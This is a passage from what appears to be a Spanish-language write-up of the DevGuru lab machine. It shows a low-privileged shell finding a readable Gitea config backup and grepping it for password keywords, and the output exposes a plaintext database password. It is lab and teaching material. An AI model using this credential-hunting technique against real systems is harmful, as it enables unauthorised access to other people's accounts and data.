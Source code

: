 Buscando por los archivos cuyo usuario sea **frank**, encontramos uno interesante: `/var/backups/app.ini.bak`, así que vamos a ver que permisos tenemos:

```bash
www-data@devguru:/var/www/html$ ls -la /var/backups/app.ini.bak
-rw-r--r-- 1 frank frank 56688 Nov 19  2020 /var/backups/app.ini.bak
www-data@devguru:/var/www/html$
```

Tenemos permisos de lectura, así que trataremos de buscar palabras claves como `user|username|pass|password|cred`, etc.

```bash
w-data@devguru:/var/www/html$ grep -i -E "user|username|pass|password|cred|creds" /var/backups/app.ini.bak
RUN_USER = frank
; Global limit of repositories per user, applied at creation time. -1 means no limit
; Allow users to push local repositories to Gitea and have them automatically created for a user or an org
ENABLE_PUSH_CREATE_USER                        = false
; GPG key to use to sign commits, Defaults to the default - that is the value of git config --get user.signingkey
; run in the context of the RUN_USER
; the results of git config --get user.name and git config --get user.email respectively and can only be overrided
; - pubkey: only sign if the user has a pubkey
; - twofa: only sign if the user has logged in with twofa
; allow request with credentials
ALLOW_CREDENTIALS = false
; Whether the email of the user should be shown in the Explore Users page
SHOW_USER_EMAIL         = true
; All available themes. Allow users select personalized themes regardless of the value of `DEFAULT_THEME`.
; All available reactions users can choose on issues/prs and comments.
; Whether the full name of the users should be shown where possible. If the full name isn't set, the username will be used.
; Number of users that are displayed on one page
USER_PAGING_NUM   = 50
[ui.user]
; Username to use for the builtin SSH server. If blank, then it is the value of RUN_USER.
BUILTIN_SSH_SERVER_USER               = 
; - empty: if SSH_TRUSTED_USER_CA_KEYS is empty this will default to off, otherwise will default to email, username.
; - email: the principal must match the user's email
; - username: the principal must match the user's username
SSH_AUTHORIZED_PRINCIPALS_ALLOW       = email, username
; Specifies the public keys of certificate authorities that are trusted to sign user certificates for authentication.
; For more information see "TrustedUserCAKeys" in the sshd config manpages.
SSH_TRUSTED_USER_CA_KEYS              = 
; Absolute path of the `TrustedUserCaKeys` file gitea will manage.
; Default this `RUN_USER`/.ssh/gitea-trusted-user-ca-keys.pem
SSH_TRUSTED_USER_CA_KEYS_FILENAME     = 
; For "serve" command it dumps to disk at PPROF_DATA_PATH as (cpuprofile|memprofile)_<username>_<temporary id>
; The "login" choice is not a security measure but just a UI flow change, use REQUIRE_SIGNIN_VIEW to force users to log in.
USER                = gitea
; Use PASSWD = `your password` for quoting if you use special characters in the password.
PASSWD              = UfFPTF8C8jjxVF2m
; the user must have creation privileges on it, and the user search path must be set
; to the look into the schema first. e.g.:ALTER USER user SET SEARCH_PATH = schema_name,"$user",public;
; Disallow regular (non-admin) users from creating organizations.
```